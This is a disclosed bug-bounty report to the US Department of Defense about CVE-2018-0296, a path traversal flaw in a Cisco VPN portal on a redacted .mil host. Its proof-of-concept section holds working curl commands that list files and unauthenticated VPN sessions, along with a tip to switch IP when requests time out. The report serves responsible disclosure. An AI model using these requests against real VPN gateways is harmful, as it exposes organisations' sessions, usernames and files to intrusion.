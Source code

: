 # [CVE-2018-0296] Cisco VPN path traversal on the https://████████/ (█████████.mil)

## Report Details
- **Report ID**: 696400
- **URL**: https://hackerone.com/reports/696400
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-17T11:36:11.078Z
- **Disclosed**: 2024-06-18T17:00:58.743Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
I discovered previously unidentified instance https://████/ (██████.mil) in ███ network, vulnerable to the CVE-2018-0296 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0296)


##POC
```
curl -i -k "https://█████████/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
```
██████

We can disclose user sessions by quering /sessions:
```
curl -i -k "https://████████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```


##Suggested fix
Updating to the latest version should fix the issue. Fixed version should give 404 "File not found" error.
Example of patched version:
```
curl -i -k "https://mvpn3.███/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

##Notes
In case you experience request timeout when reproducing, try to change your IP/VPN.

## Impact

Path traversal, which can allow the unauthenticated attacker disclose sensitive information such as VPN sessions, files, usernames. Under some conditions it's possible to cause DOS attacks

## Attachments
No attachments
